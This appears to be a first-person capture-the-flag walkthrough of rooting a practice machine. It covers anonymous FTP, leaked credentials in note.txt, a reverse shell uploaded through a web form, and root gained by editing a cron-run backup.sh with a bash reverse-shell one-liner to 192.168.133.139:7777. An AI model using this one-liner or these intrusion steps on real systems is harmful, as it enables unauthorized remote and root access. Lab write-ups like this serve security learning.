First I run nmap:



and I found a note.txt file on the ftp server with anonymous login

  

then I searched for subdirectories



I found two login pages:





then I got back to get the note.txt file



and found some users with there passwords



and I cracked the hash:



then I logged in with the credential in the note.txt file with **reg** number and **student** password

and when I logged in it asked to change the password so I changed it to **syudent1**

then I found this page and it has upload file option so I uploaded a reverse shell



then I right click on the student photo to open the directory of the photo



then I got linpeas on the machine and run it



and found some info



then I tried to connect with these credentials via ssh

and I got a shell:



and I found a vulnerability in /home/grimmie/backup.sh



then I searched on google for bash reverse shell one liner and I found:



then I modified the [backup.sh](http://backup.sh) file with this line

```Lua
bash -i >& /dev/tcp/192.168.133.139/7777 0>&1
```



and I was set a netcat listener on my attacker machine waiting for the jop to execute and I got root!!!!!

